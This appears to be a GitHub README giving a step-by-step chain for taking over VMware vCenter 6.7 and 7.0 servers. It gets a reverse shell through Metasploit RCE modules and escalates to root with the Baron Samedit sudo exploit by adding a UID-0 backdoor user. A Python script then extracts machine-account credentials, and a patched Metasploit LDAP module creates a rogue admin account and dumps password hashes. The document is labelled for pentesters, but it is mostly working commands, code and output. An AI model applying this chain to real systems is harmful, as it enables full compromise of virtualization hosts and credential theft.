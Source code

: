 ## Taking over VMware Vcenter 6.7.0 or 7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000). Intended for research or pentersters only.

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

![msf_vmware_vcenter_vsan_health_rce](msf_vmware_vcenter_vsan_health_rce.png)

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

#### vcenter 6.7.0

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

```bash
# cat /etc/photon-release
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d

# sudo --version
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```bash
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

#### vcenter 7.0.0

Follow https://research.nccgroup.com/2021/07/06/exploiting-the-sudo-baron-samedit-vulnerability-cve-2021-3156-on-vmware-vcenter-server-7-0/

Once you get a root shell via created `./sshell`, add `gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash`
line at the end of `/etc/passwd` and logon with root uid via `ssh gg@your-vcenter`.

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```python
#!/usr/bin/env python

import sys

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user, it requires root priviledges.

You obtain the user name and password:
```bash
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module. Leveraging some aspects of [CVE-2020-3952](https://www.vmware.com/security/advisories/VMSA-2020-0006.html), despite the fact the Vcenter is not vulnerable to the CVE-2020-3952 itself. 

At the time of writing this article the Metasploit module needs to be adjusted with a pull request https://github.com/rapid7/metasploit-framework/pull/15656
In the mean time you may adjust the below function in `vmware_vcenter_vmdir_auth_bypass` yourself:

```ruby
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. As a bonus you get password hashes of all the other vcenter users from vsphere.local domain.

Now go to the https://10.0.0.1/ui and logon to the vcenter.
